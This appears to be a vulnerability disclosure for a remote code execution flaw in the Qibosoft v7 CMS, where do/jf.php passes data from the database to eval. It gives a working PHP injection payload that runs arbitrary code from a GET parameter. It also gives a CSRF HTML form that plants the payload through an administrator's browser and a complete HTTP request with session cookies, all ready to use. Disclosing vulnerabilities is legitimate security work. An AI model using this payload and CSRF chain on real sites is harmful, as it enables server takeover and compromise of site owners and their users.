




# Qibosoft v7 remote code execution

### Detail

In the `do/jf.php` file, take the data from the database into the `eval` function for execution.



The database data can be added or changed in the `Plugin Management -> Point Introduction Management` in the background management. Because the variable `$rs2` exists in double quotes, the built-in `addslashes` filter is invalid, resulting in code execution.

```
payload: ";@assert(stripslashes($_GET['_']));//ertest
```





Because the point introduction management exists in the background management, it can also be used with `CSRF`

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://[::]/qibo/admin/index.php?lfj=jfadmin&action=addjf" method="POST">
      <input type="hidden" name="title" value="test" />
      <input type="hidden" name="fid" value="2" />
      <input type="hidden" name="list" value="999" />
      <input type="hidden" name="content" value="&quot;&#59;&#64;assert&#40;stripslashes&#40;&#36;&#95;GET&#91;&apos;&#95;&apos;&#93;&#41;&#41;&#59;&#47;&#47;ertest" />
      <input type="hidden" name="submit" value="æ&#143;&#144;&#32;äº&#164;" />
      <input type="hidden" name="id" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

### PoC

Add `payload` to the database

```
POST /qibo/admin/index.php?lfj=jfadmin&action=addjf HTTP/1.1
Host: [::]
Content-Length: 139
Cache-Control: max-age=0
Origin: http://[::]
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://[::]/qibo/admin/index.php?lfj=jfadmin&job=addjf
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: XDEBUG_SESSION=PHPSTORM; think_template=default; Admin=1%09ClNTVQFSB10BU1FSUgMEAVJWCwBQUQZUV1cBBANeAFc%3D94606de1fd; adminID=AzlYXF4IDG0AAFEHA1JXCgBRAlJTBwBVVQIJCwwAUgQGUQEIAgcBVw%3D%3D638eb521ba; USR=7ulybxrd%0930%091571119076%09http%3A%2F%2F%5B%3A%3A%5D%2Fqibo%2Fadmin%2Findex.php%3Flfj%3Djfadmin%26job%3Daddjf
Connection: close

title=test&fid=2&list=999&content=%22%3B%40assert%28stripslashes%28%24_GET%5B%27_%27%5D%29%29%3B%2F%2Fertest&submit=%E6%8F%90+%E4%BA%A4&id=
```

Visit `do/jf.php` to successfully execute the code

